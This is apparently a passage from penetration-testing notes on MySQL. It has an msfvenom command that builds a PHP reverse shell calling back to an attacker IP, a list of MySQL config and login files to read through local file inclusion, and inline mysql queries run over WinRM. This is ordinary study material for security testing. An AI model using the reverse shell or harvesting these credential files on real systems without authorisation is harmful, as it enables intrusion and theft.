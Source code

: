 ```bash
# Create a reverse shell payload to upload
$ msfvenom -p php/reverse_php LHOST=192.168.45.241 LPORT=80 -f raw -o shell.php
```

### LFI

If a server is vulnerable to LFI, check for interesting files for [MySQL](https://dev.mysql.com/doc/refman/8.4/en/option-files.html) or [MariaDB](https://mariadb.com/docs/server/server-management/install-and-upgrade-mariadb/configuring-mariadb/configuring-mariadb-with-option-files).

{% hint style="warning" %}
`%WINDIR%` is typically `C:\WINDOWS`. It can be found with `echo %WINDIR%`.
{% endhint %}

| File Name                                  | Purpose                                                                                                                                                                                                     |
| ------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `%WINDIR%\my.ini`, `%WINDIR%\my.cnf`       | Global options                                                                                                                                                                                              |
| `C:\my.ini`, `C:\my.cnf`                   | Global options                                                                                                                                                                                              |
| _`BASEDIR`_`\my.ini`, _`BASEDIR`_`\my.cnf` | Global options                                                                                                                                                                                              |
| `defaults-extra-file`                      | The file specified with [`--defaults-extra-file`](https://dev.mysql.com/doc/refman/8.4/en/option-file-options.html#option_general_defaults-extra-file), if any                                              |
| `%APPDATA%\MySQL\.mylogin.cnf`             | Login path options (clients only)                                                                                                                                                                           |
| _`DATADIR`_`\mysqld-auto.cnf`              | System variables persisted with [`SET PERSIST`](https://dev.mysql.com/doc/refman/8.4/en/set-variable.html) or [`SET PERSIST_ONLY`](https://dev.mysql.com/doc/refman/8.4/en/set-variable.html) (server only) |

{% hint style="warning" %}
`SYSCONFDIR` by default is `/etc`.
{% endhint %}

| File Name                     | Purpose                                                                                                                                                                                                     |
| ----------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `/etc/my.cnf`                 | Global options                                                                                                                                                                                              |
| `/etc/mysql/my.cnf`           | Global options                                                                                                                                                                                              |
| _`SYSCONFDIR`_`/my.cnf`       | Global options                                                                                                                                                                                              |
| `$MYSQL_HOME/my.cnf`          | Server-specific options (server only)                                                                                                                                                                       |
| `defaults-extra-file`         | The file specified with [`--defaults-extra-file`](https://dev.mysql.com/doc/refman/8.4/en/option-file-options.html#option_general_defaults-extra-file), if any                                              |
| `~/.my.cnf`                   | User-specific options                                                                                                                                                                                       |
| `~/.mylogin.cnf`              | User-specific login path options (clients only)                                                                                                                                                             |
| _`DATADIR`_`/mysqld-auto.cnf` | System variables persisted with [`SET PERSIST`](https://dev.mysql.com/doc/refman/8.4/en/set-variable.html) or [`SET PERSIST_ONLY`](https://dev.mysql.com/doc/refman/8.4/en/set-variable.html) (server only) |

## Inline Commands

Tools like WinRM does not support interactive prompts like `mysql` shell normally uses. That means we must use the `-e` option to execute SQL statements inline:

{% code overflow="wrap" %}
```powershell
# List databases
> .\mysql.exe -u root -e "SHOW DATABASES;"

# List tables
.\mysql.exe -u root -D wordpress -e "SHOW TABLES;"
...
```
{% endcode %}
